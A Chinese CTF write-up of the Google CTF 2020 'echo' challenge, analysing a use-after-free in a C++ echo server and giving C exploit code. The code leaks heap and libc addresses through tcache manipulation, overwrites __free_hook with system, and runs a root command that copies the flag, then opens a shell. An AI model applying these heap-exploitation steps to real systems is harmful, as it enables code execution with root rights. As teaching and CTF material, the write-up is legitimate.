






## 一、题目分析

附件提供了三个文件，通过查看题目代码可以知道：echo_server用来监听本机的一个端口，题目要求我们传入一个elf文件，之后会将读的文件执行起来，需要用传入的文件来和服务做一个交互。

其实就是魔改了一下回声服务器：https://blog.csdn.net/hanqing280441589/article/details/44259939  （可以看看这个博客了解一下）

## 二、漏洞分析

```
    write(c1, "a", 0x20);
    write(c2, "b", 0x20);
    usleep(1000)();
    
    write(c2, "c", 4);
    close(c1);
```

我们将题目提供的源码用asan编译一下可以看到uaf漏洞的产生：


我们加入一些puts和getchar分析一下：

如果我们将write和close用getchar分开，就可以保证正常的执行如下图：


去掉getchar可以看到：


很明显可以看到正常流程为先完成三次read，之后执行close，但是现在close抢在第三次read之前执行，导致了uaf。
我们去调试一下：
cf00位置是fd：04，后面是存放字符串的chunk指针

析构后，原04的位置复制为了05和其对应的chunk指针

但是之后read依旧找旧05的位置，此时他的chunk为已free的原04的chunk。

调试了一下析构的过程发现它会将两个fd的chunk指针交换。


## 写exp (主要参考了http://blog.redrocket.club/2020/08/30/google-ctf-quals-2020-echo/  ，简单调了调)

libc版本：glibc2.31

#### 1、leak

###### leak heap

- 泄漏heap的地址主要依靠glibc2.29引入的key指针，我们都知道它指向堆开头的tcache_perthread_struct结构的地址，我们将他泄漏就可以得到堆基址。

准备阶段：

- 申请0x10000大小的大chunk（主要保证之后低地址覆盖时可以正好落入大chunk）
- 申请小chunk
- 将其中一个free进入tcache
- 之后利用uaf低字节修改tcache fd，目的是下次分配之后，key值就会落入准备好的0x1000中
- 输出大chunk，在里面查找key值，即可泄漏出heap基地址

低字节修改后：



key值落入0x10000大chunk



```
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    yield();
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();

    // close A buffer, places pointer to it in tcache freelist head
    close(conns[13]);
    yield();

    // bug: free B, and auf write two nullbytes into free'd B memory.
    // partially overwrites tcaches next pointer pointing to A.
    write(conns[15], "\0", 1);
    close(conns[14]);
    yield();

    // allocate two 0x30 chunks, Y is likely to be placed inside the 0x10000 area
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY", 0x20);
    yield();

    // free Y chunk, writes heap base into 0x10000 area
    close(conns[14]);
    yield();

    // read the buffer back in by sending '\n'
    write(conns[0], "\n", 1);
    // skip the hello message, linus would insult me for writing this code
    do {
        read(conns[0], chunk, 1);
    } while(*chunk != '\n');
    readall(conns[0], chunk, 0x10000);

    // search for heap address
    size_t *leak = memmem(chunk, 0x10000, "YYYYYYYY", 8);
    if (!leak) {
        puts("heapbase not found :(");
        exit(0);
    }
    size_t heapbase = leak[-1];
    printf("heapbase located at: 0x%lx\n", heapbase);
```


###### leak libc

- 构造0x30的chunk覆盖到0x810大小的chunk的位置


通过write（‘\n’）free掉0x810的chunk

这样可以泄漏libc基址了

```
close(conns[15]);
    close(conns[13]);
    yield();
    conns[13] = conn();
    yield();
    conns[14] = conn();
    yield();
    conns[15] = conn();
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(conns[13]);
    yield();

    // bug again: overwrite tcache pointer
    size_t addr = heapbase + OFFSET_HEAP;
    write(conns[15], &addr, 7);
    close(conns[14]);
    yield();

    // allocates fake chunk over filler chunk 5's header
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    ((size_t*)chunk)[0] = 0;
    ((size_t*)chunk)[1] = 0x811;
    ((size_t*)chunk)[2] = 0;
    ((size_t*)chunk)[3] = 0;
    write(conns[14], chunk, 0x20);
    yield();

    // free chunk 5
    write(conns[5], "\n", 1);
    yield();

    // trigger a realloc (because heap is overlapping, this will lead to problems) and send leaked data out
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY\n", 0x40);
    yield();

    // read in the libc leak
    do {
        read(conns[14], chunk, 1);
    } while(*chunk != '\n');
    read(conns[14], chunk, 0x20);
    leak = (size_t*)chunk;
    if (leak[1] == 0x811) {
        puts("libc leak not found :(");
        exit(0);
    }
    printf("leaked: %lx %lx %lx %lx\n", leak[0], leak[1], leak[2], leak[3]);
    size_t libcbase = leak[2] -= OFFSET_LIBC;
    printf("libc located at: 0x%lx\n", libcbase);

```

###### get shell

修改free_hook 很常规

```
    int x, y, z;
    x = conn();
    yield();
    y = conn();
    yield();
    z = conn();
    yield();
    write(x, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(y, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(z, "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(x);
    yield();

    // bug again: overwrite tcache pointer to point at free hook
    addr = libcbase + OFFSET_FREE_HOOK;
    write(z, &addr, 7);
    close(y);
    yield();

    // get chunk overlapping the free hook, overwrite it with system
    write(conns[10], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    memset(chunk, 0, 0x20);
    *(size_t*)chunk = libcbase + OFFSET_SYSTEM;
    write(conns[11], chunk, 0x20);
    yield();

    // create chunk with command to be executed
    x = conn();
    write(x, "/bin/cp /root/flag /tmp; /bin/chmod a+r /tmp/flag\0", 0x50);
    // free the chunk, executes the command as root
    close(x);

    // we can now cat /tmp/flag
    fflush(stdout);
    system("/bin/sh");
    return 0;
```


几个比较有意思的点：

##### 一、write('\n')会释放chunk

write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
下面是几个关键截图：



可以看到如果没有输入\n就会在find那里返回nops结束。

下面是输入\n之后的代码，关键的函数已给出注释，可以看到在client.wr_buf += client.rd_buf.substr(0, eol+1);执行结束时会调用析构函数，free掉write的第一个参数指向的chunk。
（substr这个函数还挺好玩的，网上也有类似的坑点
```
pwndbg> x/60i 0x5555555565c5
=> 0x5555555565c5 <handle_read(ClientCtx&)+400>:	mov    rax,QWORD PTR [rbp-0xd8]
   0x5555555565cc <handle_read(ClientCtx&)+407>:	lea    rsi,[rax+0x8]
   0x5555555565d0 <handle_read(ClientCtx&)+411>:	mov    rax,QWORD PTR [rbp-0xc8]
   0x5555555565d7 <handle_read(ClientCtx&)+418>:	lea    rdx,[rax+0x1]
   0x5555555565db <handle_read(ClientCtx&)+422>:	lea    rax,[rbp-0xc0]
   0x5555555565e2 <handle_read(ClientCtx&)+429>:	mov    rcx,rdx
   0x5555555565e5 <handle_read(ClientCtx&)+432>:	mov    edx,0x0
   0x5555555565ea <handle_read(ClientCtx&)+437>:	mov    rdi,rax
   0x5555555565ed <handle_read(ClientCtx&)+440>:	call   0x555555555df0   => substr()
   0x5555555565f2 <handle_read(ClientCtx&)+445>:	mov    rax,QWORD PTR [rbp-0xd8]
   0x5555555565f9 <handle_read(ClientCtx&)+452>:	lea    rdx,[rax+0x28]
   0x5555555565fd <handle_read(ClientCtx&)+456>:	lea    rax,[rbp-0xc0]
   0x555555556604 <handle_read(ClientCtx&)+463>:	mov    rsi,rax
   0x555555556607 <handle_read(ClientCtx&)+466>:	mov    rdi,rdx
   0x55555555660a <handle_read(ClientCtx&)+469>:	call   0x555555555e80   => operator+=()
   0x55555555660f <handle_read(ClientCtx&)+474>:	lea    rax,[rbp-0xc0]
   0x555555556616 <handle_read(ClientCtx&)+481>:	mov    rdi,rax
   0x555555556619 <handle_read(ClientCtx&)+484>:	call   0x555555555d30   =>~basic_string()
```


#### 二、uaf的产生

vector_erase触发copy（因为不是尾部）-》basic_string 的operation = -〉swap ，swap之后两个client结构体对应的string chunk的指针就交换了


